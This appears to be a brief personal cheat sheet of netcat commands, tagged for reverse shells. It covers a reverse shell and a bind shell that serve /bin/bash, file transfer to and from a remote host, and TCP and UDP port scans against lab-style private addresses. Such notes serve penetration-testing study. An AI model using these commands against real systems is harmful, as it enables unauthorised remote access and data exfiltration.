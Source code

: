 #tool #network #reverseShells 


##### Connecting to a port 

```bash
nc -nv 10.11.0.22 4444 -e /bin/bash ## reverse shell, nc -nlvp 4444 -e /bin/bash
```

##### Listning to a Port 

```bash
nc -nlvp 4444
```

##### File transfer

**Server**
```bash
nc -nlvp 4444 > outfile
```

**Client**
```bash
nc -nv 10.11.0.22 4444 < infile
```


#### Port scan 
#portscan

**TCP**

```bash
nc -nvv -w 1 -z 10.11.1.220 3388-3390
```

**UDP**
```bash
nc -nv -u -z -w 1 10.11.1.115 160-162
```



